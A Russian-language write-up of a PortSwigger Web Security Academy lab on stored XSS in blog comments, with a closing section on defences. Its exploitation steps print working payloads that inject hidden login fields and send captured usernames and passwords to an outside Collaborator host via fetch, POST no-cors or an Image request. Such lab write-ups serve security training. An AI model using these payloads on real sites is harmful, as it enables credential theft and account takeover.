





## Lab: Exploiting cross-site scripting to capture passwords

**Платформа:** PortSwigger Web Security Academy  
**Категория:** XSS  
**Сложность:** Practitioner  
**Инструмент:** Burp Suite Professional (Collaborator)  
**Дата:** 2025-07-21  

---

## TL;DR
Функция комментариев к блогу уязвима к Stored XSS. Через внедрение
скрытых полей `username` и `password` с обработчиком `onchange`
перехвачены учётные данные бота-жертвы. Выполнен вход под его аккаунтом.

---

## Описание уязвимости

Атака основана на том что браузер жертвы **автоматически заполняет**
поля логина и пароля когда видит форму на странице. Бот-жертва
программно вводит свои учётные данные в любые поля с именами
`username` и `password` которые находит на странице.

```
Атакующий → вставляет скрытые поля в комментарий
              ↓
Жертва открывает страницу с комментариями
              ↓
Бот видит поля username и password
              ↓
Бот заполняет их своими учётными данными
              ↓
Срабатывает onchange → данные улетают на Collaborator
              ↓
Атакующий получает username:password
```

---

## Разведка

### Шаг 1 — Подтверждение Stored XSS

Открыла любой пост блога → форма комментария.
Ввела в поле комментария:

```html
<script>alert(1)</script>
```

После публикации при загрузке страницы сработал `alert(1)` —
Stored XSS подтверждён. Комментарий сохраняется в БД без экранирования
и выполняется в браузере каждого посетителя.



---

## Эксплуатация

### Шаг 2 — Получение Collaborator адреса

В Burp Suite Professional перешла на вкладку **Collaborator**
→ нажала **Copy to clipboard**.

Получила уникальный адрес:
```
efxs89418xmptxvhzlygmy9ey54wsmgb.oastify.com
```



### Шаг 3 — Размещение payload в комментарии

Вставила payload в поле комментария:

```html
<form id=myform>
<input name=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://efxs89418xmptxvhzlygmy9ey54wsmgb.oastify.com/?username='+this.form.username.value+'&password='+this.value,{method:'GET'})">
</form>
```



После публикации комментарий сохранился в БД. Теперь каждый
кто откроет страницу — увидит скрытую форму.

### Шаг 4 — Перехват учётных данных в Collaborator

Перешла в Burp → вкладка **Collaborator** → нажала **Poll now**.

Через 10-30 секунд появился HTTP запрос от бота-жертвы:

```http
GET /?username=wiener&password=secret_password HTTP/1.1
Host: efxs89418xmptxvhzlygmy9ey54wsmgb.oastify.com
```

В параметрах `username` и `password` — учётные данные жертвы.



### Шаг 5 — Вход под аккаунтом жертвы

Использовала перехваченные учётные данные для входа на странице `/login`:

```
Username: wiener
Password: [перехваченный пароль]
```



---

## Как работает перехват — детально

```html
<form id=myform>
  <input name=username>
  <!-- Поле username — бот видит его и заполняет своим логином -->

  <input type=password name=password
    onchange="if(this.value.length)
      fetch('https://collaborator/?username='+this.form.username.value
            +'&password='+this.value, {method:'GET'})">
  <!-- Поле password — бот заполняет паролем -->
  <!-- onchange срабатывает когда значение меняется -->
  <!-- fetch отправляет оба значения на Collaborator -->
</form>
```

```
Бот заполняет username → значение записывается в поле
Бот заполняет password → значение записывается в поле
                        → срабатывает onchange
                        → this.value = пароль
                        → this.form.username.value = логин
                        → fetch отправляет оба на Collaborator
```

---

## Альтернативные варианты решения

### Вариант 1 — POST запрос (официальное решение PortSwigger)

```html
<input name=username id=username>
<input type=password name=password
  onchange="if(this.value.length)fetch('https://COLLABORATOR',{
    method:'POST',
    mode:'no-cors',
    body:username.value+':'+this.value
  });">
```

Отличие от моего решения:
```
Мой вариант:      GET запрос, данные в URL параметрах
Официальный:      POST запрос, данные в body
                  mode: no-cors — обход CORS без предварительного запроса
```

В Collaborator данные видны во вкладке **Request body**:
```
wiener:secret_password
```

### Вариант 2 — через Image (без CORS)

```html
<input name=username id=username>
<input type=password name=password
  onchange="if(this.value.length)new Image().src=
    'https://COLLABORATOR/?u='+username.value+'&p='+this.value">
```

`new Image().src` — самый надёжный способ, не блокируется CORS никогда.

### Вариант 3 — Альтернативное решение через CSRF

Вместо кражи пароля можно заставить жертву **опубликовать свои данные**
в комментарии через CSRF атаку. Но это менее элегантно —
учётные данные становятся публично видны всем посетителям блога.

---

## Сравнение вариантов

```
Вариант              Надёжность   CORS   Данные видны
──────────────────────────────────────────────────────
GET + URL параметры  высокая      нет    в URL логах
POST no-cors         высокая      нет    в body
new Image().src      высокая      нет    в URL логах
CSRF в комментарий   низкая       н/д    публично!
```

---

## Итог

```
Stored XSS в комментарии
         ↓
Скрытые поля username и password на странице
         ↓
Бот заполняет поля своими учётными данными
         ↓
onchange → fetch → учётные данные на Collaborator
         ↓
Атакующий входит под аккаунтом жертвы
```

---

## Защита

```python
# УЯЗВИМО — сохранение комментария без экранирования:
db.save(comment=user_input)
template.render(comment=comment)  # вставляет как HTML

# БЕЗОПАСНО — экранирование перед сохранением:
from html import escape
db.save(comment=escape(user_input))
```

```javascript
// УЯЗВИМО — вставка через innerHTML:
commentDiv.innerHTML = commentText;

// БЕЗОПАСНО — вставка через textContent:
commentDiv.textContent = commentText;
```

Дополнительно:
- `autocomplete=off` на полях форм — отключает автозаполнение
  (не 100% надёжно, браузеры могут игнорировать)
- CSP заголовок — блокирует исходящие fetch/image запросы
  на неизвестные домены
- Хранить пароли только в хэшированном виде — даже
  при перехвате атакующий получит хэш а не открытый пароль
- Валидация и санитизация всего пользовательского ввода
  перед сохранением в БД